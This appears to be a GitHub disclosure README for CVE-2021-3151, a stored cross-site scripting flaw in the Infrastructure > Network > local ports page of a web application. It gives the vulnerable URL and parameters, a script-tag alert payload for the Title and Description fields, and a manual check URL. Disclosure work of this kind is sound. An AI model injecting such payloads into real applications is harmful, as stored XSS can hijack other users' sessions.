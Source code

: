 ## CVE-2021-3151

On the next day: Description and usage =)

-----------------------------------------------

# Reproduce

## Vulnerable page in the Infrastructure section

+ Network
  - local ports

## Vulnerable (Infrastructure) section
## Parameter: 
`viewMode (Infrastructure, Object, Network > local ports = XSS simbol{'})`

- URL
```
http://192.168.1.2/?viewMode=1100&tvMode=1006&tvType=1&objID=26&catgID=41&objTypeID=19&cateID=1&editMode=1
```
## insert the simple payload: =)
```
	Title:       <script>alert("nu11secur1ty_is_here");</script>
	Description: <script>alert("nu11secur1ty_is_here");</script>
```
## Click on the save button

- screen
![](https://github.com/nu11secur1ty/CVE-mitre/blob/main/CVE-2021-3151/screen/Capture.PNG)


## Manually checking the Payload:
```url
http://192.168.1.2/index.php?viewMode=1002&tvMode=1006&tvType=1&objID=26&catgID=41%27
```
- result
![](https://github.com/nu11secur1ty/CVE-mitre/blob/main/CVE-2021-3151/screen/Capture1.PNG)

## Parameter: 
```
viewMode (Infrastructure, Object, Network > local pots = XSS simbol{'})
```
## Run the poc.py automated script to check if your Payload is working
```python
python3 poc.py
```
- result
![](https://github.com/nu11secur1ty/CVE-mitre/blob/main/CVE-2021-3151/screen/Capture1.PNG)

[Proof](https://streamable.com/w387ky)

# BR
